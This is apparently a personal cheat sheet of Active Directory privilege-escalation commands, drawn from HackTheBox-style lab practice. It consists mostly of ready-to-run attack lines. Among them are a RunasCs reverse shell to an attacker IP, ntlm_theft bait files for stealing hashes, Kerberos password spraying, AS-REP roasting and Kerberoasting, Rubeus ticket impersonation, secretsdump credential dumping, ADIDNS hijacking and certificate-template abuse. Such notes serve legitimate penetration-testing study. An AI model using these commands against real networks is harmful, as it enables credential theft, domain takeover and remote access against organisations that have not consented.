 # AD PrivEsc

dc-ip you aclly gotta add the dc dns name too to hosts eg. dc.manager.htb or sum

printer config -> return \[easy]

krbrelayx, so many relays in impacket itself \[ntlmrelayx]

{% embed url="https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet" %}

<figure><img src="../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../.gitbook/assets/image (115).png" alt=""><figcaption></figcaption></figure></div>

{% embed url="https://orange-cyberdefense.github.io/ocd-mindmaps/img/mindmap_ad_dark_classic_2025.03.excalidraw.svg" %}
Ultimate AD Mindmap
{% endembed %}

### Bloodhound

```
./SharpHound.exe --CollectionMethod All
bloodhound-python -u '[user]' -p '[password]' -d [domain] -dc [dc] -ns [ip] -c all
```

#### SharpGPOAbuse - Modify Group Policy Objects

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount [user] --GPOName [fake_GPO]
gpupdate /force
```

#### RunAs - Sudo for Windows

```
.\RunasCs.exe "[user]" '[password]' powershell.exe -r 10.10.14.2:9001
```

#### gMSADumper - Reads any gMSA password blobs the user can access

```
python3 gMSADumper.py -u '[user]' -p '[password]' -d [domain]
```

#### pyLAPS - Read LAPS if user has the privilege

```
python3 pyLAPS.py --action get -d "[domain]" -u "[user]" -p '[password]'
```

#### NTLMTheft - Creates files that steal NTLM hashes if clicked on/accessed

```
python ntlm_theft.py -g all -s 10.10.14.9 -f jtripz
```

### Rubeus

{% embed url="https://www.hackingarticles.in/a-detailed-guide-on-rubeus/" %}

```
.\Rubeus.exe hash /password:0xdf0xdf123 /user:0xdfFakeComputer /domain:support.htb
.\Rubeus.exe s4u /user:0xdfFakeComputer$ /rc4:B1809AB221A7E1F4545BD9E24E49D5F4 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
.\Rubeus.exe klist
.\Rubeus.exe asktgt /user:Administrator /certificate:C:\Programdata\cert.pfx
.\Rubeus.exe tgtdeleg /nowrap
```

## Kerberos

```
./kerbrute_linux_amd64 passwordspray -d FRIZZ.HTB ~/htb/rooms/frizz/output.txt '!suBcig@MehTed!R' --dc 'FRIZZDC.FRIZZ.HTB'
./kerbrute_linux_amd64 userenum -d egotistical-bank.local  ~/htb/sauna/newuser.txt --dc egotistical-bank.local -v | grep 'VALID' 
```

#### DNSTool \[krbrelayx] - Edit  ADIDNS (AD Integrated DNS)

Regular users create child objects by default, attackers can leverage that and hijack traffic - no need to be DNS Admin for this

```
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 --action add --record web-0xdf --data 10.10.14.2 --type A 10.10.10.248
```

### Impacket

#### GetNPUsers - ASREP Roasting for users with no pre-auth

{% code title="18200" %}
```
python3 GetNPUsers.py [domain]/ -dc-ip [ip] -usersfile userlist.txt
./GetNPUsers.py -no-pass -dc-ip [ip] -request '[domain]/[user]'
```
{% endcode %}

#### GetUserSPN - find Service Principal Names that are associated with normal user account

```
python3 GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] 
python3 GetUserSPNs.py [domain]/[user]:[password] -dc-ip [ip] -request <get ticket here>
```

#### SecretsDump - Dump admin hashes if DCSync privileges enabled

```
sudo python3 secretsdump.py [domain]/[user]@[ip]
sudo python3 secretsdump.py -k -no-pass [host_domain] -just-dc-user [user] #Using KRB5CCNAME
```

#### getTGT - request a TGT and save it as ccache

```
python3 getTGT.py -dc-ip [ip] [domain]/'[user]':'[password]'
```

#### getST - request a Service Ticket and save it as ccache

```
python3 getST.py -spn [SPN] [-impersonate administrator] -hashes [hash] -dc-ip [ip] [domain]/[user]
```

#### PSexec - Semi shell that writes to $ADMIN share

```
export KRB5CCNAME=ticket.ccache; python3 psexec.py [domain]/[user]@[dc_domain] -k -no-pass
python3 psexec.py -hashes [hash] [user]@[ip] cmd.exe 
```

{% embed url="https://medium.com/@allypetitt/windows-remoting-difference-between-psexec-wmiexec-atexec-exec-bf7d1edb5986" %}

#### TicketConverter - convert kirbi files (commonly used by mimikatz) into ccache files and vice-versa

```
base64 -d ticket.kirbi.b64 > ticket.kirbi
./ticketConverter.py ticket.kirbi ticket.ccache
```

### AD CS (Certificate Service)

```
certipy-ad find -dc-ip [ip] -ns [ip] -u [user]@[domain] -p '[password]' -vulnerable -stdout
nxc ldap "domain_controller" -d "domain" -u "user" -p "password" -M adcs
.\Certify.exe find /vulnerable
.\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
